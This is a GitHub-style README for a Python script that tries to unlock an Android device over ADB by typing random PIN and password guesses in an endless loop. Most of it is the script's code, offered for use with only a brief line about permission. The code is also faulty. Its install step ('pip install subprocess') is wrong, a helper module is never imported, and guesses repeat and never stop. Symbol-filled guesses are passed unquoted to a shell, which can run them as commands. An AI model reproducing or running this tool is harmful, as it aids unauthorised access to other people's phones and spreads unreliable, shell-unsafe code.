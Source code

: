 # Device Unlock Script

This script attempts to unlock an Android device using ADB (Android Debug Bridge) by simulating password inputs. It generates passwords of various types (numeric, alphabetic, and mixed characters) and tries each one until the device is unlocked.

## Prerequisites

- Python 3.x
- ADB (Android Debug Bridge) installed and configured on your computer
- The device must have USB debugging enabled

## Installation

1. **Install ADB:**

   Follow the official instructions to install ADB for your operating system: [ADB Installation Guide](https://developer.android.com/studio/command-line/adb)

2. **Clone the Repository:**

   ```sh
   git clone https://github.com/yourusername/device-unlock-script.git
   cd device-unlock-script
   ```

3. **Install Required Python Libraries:**

   ```sh
   pip install subprocess
   ```

## Usage

1. **Connect Your Device:**

   Ensure your Android device is connected via USB and USB debugging is enabled.

2. **Run the Script:**

   ```sh
   python unlock_device.py
   ```

3. **Choose the Unlock Type:**

   The script will prompt you to choose the type of password to attempt:
   
   ```
   ◯ For unlocking 4-digit Number :- 1
   ◯ For unlocking 6-digit Number :- 2
   ◯ For unlocking small alphabet :- 3
   ◯ For unlocking Big alphabet :- 4
   ◯ For unlocking Mixed-digit alphabet :- 5
   ◉ Enter your unlock Mode: 
   ```

4. **Password Length:**

   If you choose an alphabetic or mixed password type, you will be prompted to enter the length of the password.

## Code Explanation

### `unlock_device_with_password(password)`

This function uses ADB commands to input the password and simulate pressing the Enter key:

```python
import subprocess

def unlock_device_with_password(password):
    cmd_input_password = f"adb shell input text {password}"
    subprocess.run(cmd_input_password, shell=True)
    
    cmd_press_enter = "adb shell input keyevent 66"
    subprocess.run(cmd_press_enter, shell=True)
```

### `choose_Type()`

This function presents the user with options to choose the type of password to attempt:

```python
def choose_Type():
    a = chr(9673)
    b = chr(9445)
    print(f"{a} For unlocking 4-digit Number :- 1")
    print(f"{a} For unlocking 6-digit Number :- 2")
    print(f"{a} For unlocking small alphabet :- 3")
    print(f"{a} For unlocking Big alphabet :- 4")
    print(f"{a} For unlocking Mixed-digit alphabet :- 5")
    user_input = int(input(f"{b} Enter your unlock Mode: "))
    if user_input == 1:
        while True:
            four = pd.Four_digit()
            unlock_device_with_password(four)
    elif user_input == 2:
        while True:
            six = pd.Six_digit()
            unlock_device_with_password(six)
    elif user_input == 3:
        lenth = int(input("What is the length of your password:- "))
        while True:
            Small = pd.Small_Chractes(lenth)
            unlock_device_with_password(Small)
    elif user_input == 4:
        lenth = int(input("What is the length of your password:- "))
        while True:
            Big = pd.Big_Chractes(lenth)
            unlock_device_with_password(Big)
    elif user_input == 5:
        lenth = int(input("What is the length of your password:- "))
        while True:
            mix = pd.mix_Chractes(lenth)
            unlock_device_with_password(mix)
    else:
        print("Invalid Choice")
```

### Password Generation Functions

These functions generate passwords based on the chosen type and length.

#### Four-Digit Number

```python
import random

def Four_digit():
    return str(random.randint(1000, 9999))
```

#### Six-Digit Number

```python
def Six_digit():
    return str(random.randint(100000, 999999))
```

#### Small Alphabetic Characters

```python
def Small_Chractes(length):
    characters = "qwertyuiopasdfghjklzxcvbnm"
    return ''.join(random.choice(characters) for _ in range(length))
```

#### Big Alphabetic Characters

```python
def Big_Chractes(length):
    characters = "ASDFGHJKLPOIUYTREWQZXCVBNM"
    return ''.join(random.choice(characters) for _ in range(length))
```

#### Mixed Characters

```python
def mix_Chractes(length):
    characters = "qwertyuiopasdfghjklzxcvbnmASDFGHJKLPOIUYTREWQZXCVBNM1234567890-=[]|;'./,<>?:{}+_!@#$%^&*()"
    return ''.join(random.choice(characters) for _ in range(length))
```

## Notes

- The script runs indefinitely until the device is unlocked or the script is manually terminated.
- Ensure that you have the necessary permissions to attempt unlocking the device.
- Use this script responsibly and only on devices you own or have explicit permission to unlock.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.